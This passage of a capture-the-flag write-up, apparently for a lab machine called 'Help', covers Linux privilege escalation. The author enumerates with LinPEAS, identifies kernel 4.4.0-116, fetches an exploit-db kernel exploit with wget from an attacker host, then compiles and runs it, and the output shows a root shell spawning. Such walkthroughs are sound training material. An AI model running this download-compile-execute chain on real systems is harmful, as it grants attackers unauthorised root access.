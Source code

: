 ### Privilege Escalation

Loading LinPEAS onto the target we can see the kernel is outdated and likely vulnerable to several kernel exploits:

![help_lp2.png](../assets/help_assets/help_lp2.png)

Interestingly dirtycow did not work here. 

```
help@help:/tmp$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Searching for exploits against this specific kernel version I find: https://www.exploit-db.com/exploits/44298

We can transfer this over to the target, compile it and drop into a root shell:

```
help@help:/tmp$ wget 10.10.14.94/4.4.0-116_kernel_exploit.c
--2024-07-15 08:31:29--  http://10.10.14.94/4.4.0-116_kernel_exploit.c
Connecting to 10.10.14.94:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5788 (5.7K) [text/x-csrc]
Saving to: '4.4.0-116_kernel_exploit.c'

4.4.0-116_kernel_ex 100%[===================>]   5.65K  --.-KB/s    in 0s      

2024-07-15 08:31:29 (12.8 MB/s) - '4.4.0-116_kernel_exploit.c' saved [5788/5788]

help@help:/tmp$ gcc 4.4.0-116_kernel_exploit.c -o exploit
help@help:/tmp$ chmod +x exploit
help@help:/tmp$ ./exploit
task_struct = ffff88001cd8e200
uidptr = ffff88003da74904
spawning root shell
```